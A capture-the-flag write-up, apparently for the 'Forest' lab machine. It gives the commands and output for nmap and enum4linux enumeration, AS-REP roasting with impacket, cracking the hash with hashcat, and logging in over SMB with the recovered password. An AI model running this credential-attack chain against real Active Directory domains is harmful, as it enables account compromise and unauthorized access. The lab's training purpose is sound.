 ## Forest - Easy

![image](https://github.com/user-attachments/assets/ac6fbe09-9503-4277-a5e7-27c0771f0d40)


First of all we are gonna find out what ports are open using nmapAutomator.sh

```
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-10-01 18:00:28Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
62722/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h26m49s, deviation: 4h02m29s, median: 6m49s
| smb2-time: 
|   date: 2024-10-01T18:01:20
|_  start_date: 2024-10-01T17:47:39
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-10-01T11:01:17-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct  1 13:54:39 2024 -- 1 IP address (1 host up) scanned in 66.95 seconds
```

We discovered that we have SMB and LDAP running mainly and our Domain Controller is HTB.LOCAL. Now let's run enum4linux to see if we can discover more, something like the users of the set.

`Usage: enum4linux IP`

And we got our output for what we were looking for

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

I checked everything else on the SMB but we don't have any access to the shares or listing, all we can get is groups and users. Moving forward, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege “Does not require Pre-Authentication” set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

`impacket-GetNPUsers -dc-ip 10.129.178.144 -usersfile users.txt htb.local/`

And we manage to find out that `svc-alfresco` is the vulnerable account!

```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:1a132d01c70faac9b364c098691cfb05$62979b7a4038980f84990f3b443f25c04ee50fd66d5267dde77010880a252f6eca3a26dde64d133f868baebe27d451fef83f24989daec633f798651fedfce6d37e36569ea9a0e9a479b2baa90add3f45d5eb0f80df396aa9d1496619c6e05eb410139bda26e3201bc2c31bd2fcba8debbfc9a4edf1a8daafea4e9ad79eee805b5ff48c13a10be5123725dd928eb5c7027b7257fdbbdd67678dd4197159f46a9b1c0fe626e6f176d436d59d1133db3ebc3907b0d1401ef6ca09fa360b67566cbbdb02341ecc3a938041fc0b9374a0aed98ea4770f045d3acc0d7ce7a2b9be75cbc59a41b972ee
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Great! Now we can proceed to crack the hash using `Hashcat` but first we need to find the mode we need to use. We can do this by using the following command `hashcat -h | grep "AS-REP"` and we got the output that 18200 is the right mode!

`hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force`

About 2 seconds in, we manage to get our password.

```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:1a132d01c70faac9b364c098691cfb05$62979b7a4038980f84990f3b443f25c04ee50fd66d5267dde77010880a252f6eca3a26dde64d133f868baebe27d451fef83f24989daec633f798651fedfce6d37e36569ea9a0e9a479b2baa90add3f45d5eb0f80df396aa9d1496619c6e05eb410139bda26e3201bc2c31bd2fcba8debbfc9a4edf1a8daafea4e9ad79eee805b5ff48c13a10be5123725dd928eb5c7027b7257fdbbdd67678dd4197159f46a9b1c0fe626e6f176d436d59d1133db3ebc3907b0d1401ef6ca09fa360b67566cbbdb02341ecc3a938041fc0b9374a0aed98ea4770f045d3acc0d7ce7a2b9be75cbc59a41b972ee:s3rvice
```

Next we should probably try logging in to the SMB (Server Message Block) with the newly found credentials and try to see if they work.

```
smbclient -L \\\\10.129.178.144\\ -U svc-alfresco
Password for [WORKGROUP\svc-alfresco]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```

We can gain more information about what we have access to by using the tool `smbmap`

```
smbmap -u svc-alfresco -p s3rvice -d . -H 10.129.178.144

[+] IP: 10.129.178.144:445      Name: forest.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
```

Yay! We got our first foothold! But as we find out later, nothing useful in the SMB shares. 




